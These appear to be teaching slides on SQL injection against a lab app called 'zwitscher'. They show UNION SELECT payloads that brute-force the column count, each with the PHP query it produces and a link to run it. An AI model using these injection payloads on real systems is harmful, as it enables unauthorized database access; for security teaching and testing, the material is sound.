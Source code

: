 ### Are we stuck?   

---

## What now? Brutforce!

- "1" returns a table with one field and one column, containing '1'
- "1, 2" returns a table with one column and two fields, '1' and '2'
- "1, 2, 3" returns ...
<br />
<br />

**Approach: Bruteforce... Increment until there is a match**

--

## What now? Brutforce!

Input: <span style="color:crimson">#dog' UNION SELECT 1; -- </span>

```php
$sql = "SELECT * FROM zwitscher
        WHERE hashtag = '#dog'
        UNION
        SELECT 1; -- ';";
```

[Run code](../zwitscher/?search=%27+UNION+SELECT+1%3B+--+)

:(

--

## What now? Brutforce!

Input: <span style="color:crimson">#dog' UNION SELECT 1, 2; -- </span>

```php
$sql = "SELECT * FROM zwitscher
        WHERE hashtag = '#dog'
        UNION
        SELECT 1, 2; -- ';";
```

[Run code](../zwitscher/?search=%27+UNION+SELECT+1%2C+2%3B+--+)

:(

--

## What now? Brutforce!

Input: <span style="color:crimson">#dog' UNION SELECT 1, 2, 3; -- </span>

```php
$sql = "SELECT * FROM zwitscher
        WHERE hashtag = '#dog'
        UNION
        SELECT 1, 2, 3; -- ';";
```

